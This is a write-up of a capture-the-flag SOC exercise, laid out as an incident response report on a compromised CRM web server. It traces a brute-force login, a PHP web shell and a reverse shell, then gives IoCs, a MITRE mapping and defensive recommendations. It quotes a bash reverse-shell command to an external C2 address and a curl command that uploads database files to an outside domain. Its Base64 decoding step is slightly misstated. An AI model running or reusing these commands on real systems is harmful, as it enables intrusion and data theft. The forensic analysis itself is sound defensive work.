**Incident Response Report: Multi-Stage CRM Web Application Compromise**

**Incident Type:** Web Application Exploitation / Brute Force / Web Shell / Reverse Shell / Data Exfiltration
**Status:** Completed
**Date of Analysis:** October 4, 2026
**Environment:** CTF / SOC Simulation Exercise (Log Analysis & EDR Telemetry)

### Executive Summary

An investigation into a compromised web server (`crm.trypatchme.thm`) revealed a multi-stage intrusion originating from an external IP (`34.67.91.83`). The attacker performed a brute-force attack against the CRM login portal, successfully authenticated, and exploited a file upload vulnerability to deploy a PHP web shell (`invoice.php`). 

Through the web shell, the attacker executed arbitrary commands, decoded Base64 payloads, and established a reverse shell to a command-and-control (C2) server (`115.58.148.86:8080`). Post-exploitation activities included system discovery, accessing sensitive configuration files, and exfiltrating database files to an external domain (`portaldrop2025.xyz`). The final flag was retrieved from the compromised system.

### Investigation Workflow

The investigation followed a structured forensic workflow utilizing terminal log analysis and EDR (Endpoint Detection and Response) telemetry:

1.  **Log Analysis (Terminal)** – Identify brute-force attempts and successful logins via web server access logs.
2.  **Payload Analysis** – Decode obfuscated commands and identify the uploaded web shell.
3.  **EDR Telemetry Analysis** – Correlate file write events, anomalous process creation, and network connections.
4.  **Exfiltration Analysis** – Track data movement and identify external C2 infrastructure.
5.  **Flag Extraction** – Decode and retrieve the final objective flag.

---

### 1. Initial Access & Reconnaissance

Analysis of the web server access logs identified the attacker's IP as `34.67.91.83`. The attacker employed automated tools to brute-force the CRM login portal at `/CRM/login.php`.

*   **Attacker IP:** `34.67.91.83`
*   **Target Domain:** `crm.trypatchme.thm`
*   **Target Endpoint:** `/CRM/login.php`
*   **User-Agent:** `python-requests/2.31.0`

The attacker used a Python script to send rapid POST requests. Log analysis revealed a high volume of failed login attempts followed by successful authentications.

*   **Failed Logins:** 56
*   **Successful Logins:** 18



*Figure 1 – Terminal output showing the `awk` command used to filter failed POST requests (HTTP 401) to `/CRM/login.php`.*



*Figure 2 – Terminal output showing the count of successful POST requests (HTTP 200) to `/CRM/login.php`.*

### 2. Vulnerability Exploitation & Web Shell Deployment

Following the successful brute-force attack, the attacker uploaded a malicious PHP file. The access logs show a POST request to `/CRM/portal/uploads/invoice.php` containing obfuscated parameters.

*   **Suspicious File:** `invoice.php`
*   **File Path:** `/var/www/html/CRM/portal/uploads/invoice.php`
*   **Upload Time:** 2025-11-06 14:27:34

The attacker passed a Base64-encoded command in the `q` parameter: `q=ZDJodllXMXA=`. Analysis via CyberChef revealed this decodes to `whoami`, confirming the web shell was successfully executing commands.



*Figure 3 – Web server access logs showing the POST request to `upload.php` and subsequent `invoice.php` execution.*



*Figure 4 – Detailed log entry showing the Base64 encoded `whoami` command in the `q` parameter.*



*Figure 5 – CyberChef decoding the Base64 payload `ZDJodllXMXA=` to `whoami`.*

EDR telemetry flagged the file write event as a high-severity detection. The web server process (`php-fpm`) wrote the malicious PHP file to the uploads directory.

*   **Detection:** Suspicious File Write: Backdoor:PHP/Generic
*   **Process Image:** `/usr/sbin/php-fpm7.4`
*   **User:** `www-data`
*   **Hostname:** `TPMHQ-CRM01`



*Figure 6 – EDR alert showing the creation of the `invoice.php` backdoor.*



*Figure 7 – Associated IoCs including the file path and the executing process.*

### 3. Post-Exploitation & Reverse Shell

After establishing the web shell, the attacker executed a reverse shell payload. EDR telemetry captured a parent-child process anomaly where the web server process spawned a bash shell.

*   **Shell Command:** `bash -c "bash -i >& /dev/tcp/115.58.148.86/8080 0>&1"`
*   **C2 IP:** `115.58.148.86`
*   **C2 Port:** `8080`



*Figure 8 – EDR alert showing the anomalous parent-child relationship between `php-fpm` and `bash`.*



*Figure 9 – Detailed process information showing the reverse shell command and network connection to the attacker's C2 server.*

### 4. System Discovery & Exfiltration

With interactive shell access, the attacker performed system discovery. The process chain shows a series of reconnaissance commands executed via the non-interactive shell.

*   **Commands Executed:** `uname`, `ip`, `find`, `cat`, `ls`, `curl`
*   **Sensitive File Accessed:** `/etc/trycrm/config.json`



*Figure 10 – EDR telemetry showing the execution of discovery commands and reading of the CRM configuration file.*

The attacker then used `curl` to exfiltrate sensitive database files to an external domain. The command uploaded `prod.db` and `prod.idx` to `https://portaldrop2025.xyz`.

*   **Exfiltration Command:** `curl -sS -T /var/lib/trycrm/prod.db -T /var/lib/trycrm/prod.idx https://portaldrop2025.xyz/x7Ja0mIQ`
*   **Exfiltration Domain:** `portaldrop2025.xyz`



*Figure 11 – EDR alert showing the `curl` command used to exfiltrate the CRM database files.*

Following the exfiltration, the attacker retrieved the final flag from the compromised system.

*   **Decoded Flag:** `THM{portal_droap3d}`

---

### Indicators of Compromise (IoCs)

**Network Indicators**
| Type | Value |
| :--- | :--- |
| Attacker IP | `34.67.91.83` |
| C2 IP | `115.58.148.86` |
| C2 Port | `8080` |
| Exfiltration Domain | `portaldrop2025.xyz` |
| Exfiltration Port | `443` |

**File & Payload Indicators**
| Type | Value |
| :--- | :--- |
| Malicious File | `invoice.php` |
| File Path | `/var/www/html/CRM/portal/uploads/invoice.php` |
| Encoded Payload | `ZDJodllXMXA=` |
| Decoded Payload | `whoami` |
| Reverse Shell Payload | `bash -i >& /dev/tcp/115.58.148.86/8080 0>&1` |
| Sensitive File Read | `/etc/trycrm/config.json` |
| Flag | `THM{portal_droap3d}` |

---

### MITRE ATT&CK Mapping

| Technique | ID | Description |
| :--- | :--- | :--- |
| Brute Force | T1110 | Automated brute-force attack against the CRM login portal using Python requests. |
| Exploit Public-Facing Application | T1190 | Exploitation of a file upload vulnerability to deploy a web shell. |
| Server Software Component: Web Shell | T1505.003 | Upload of `invoice.php` to maintain persistent access. |
| Command and Scripting Interpreter: Unix Shell | T1059.004 | Spawning of a reverse bash shell for interactive access. |
| System Information Discovery | T1082 | Execution of `uname`, `ip`, and `find` to enumerate the host. |
| Exfiltration Over C2 Channel | T1041 | Use of `curl` to exfiltrate `prod.db` and `prod.idx` to an external server. |

---

### Conclusion & Recommendations

The investigation confirmed that the victim's CRM server was fully compromised through a combination of weak authentication (brute-forceable login) and an unrestricted file upload vulnerability. The attacker successfully leveraged these flaws to deploy a web shell, establish a reverse shell, and exfiltrate sensitive database files.

**Recommendations:**

1.  **Account Security** – Enforce strong password policies and implement Multi-Factor Authentication (MFA) for all CRM portal access to mitigate brute-force attacks. Implement account lockout policies.
2.  **Input Validation & File Upload Security** – Implement strict server-side validation on file uploads. Restrict file extensions, verify MIME types, and store uploaded files outside of the web root directory. Rename uploaded files to prevent direct execution.
3.  **Network Blocking** – Block the attacker IP `34.67.91.83` and the C2 IP `115.58.148.86` at the firewall. Blacklist outbound connections to `portaldrop2025.xyz`.
4.  **System Hardening** – Disable dangerous PHP functions (e.g., `exec`, `system`, `shell_exec`) in the `php.ini` configuration if not strictly required. Restrict outbound network traffic from the web server to prevent reverse shell callbacks.
5.  **Monitoring & Response** – Enhance EDR monitoring for anomalous process creation (e.g., web server spawning shells) and unusual outbound network connections from web servers.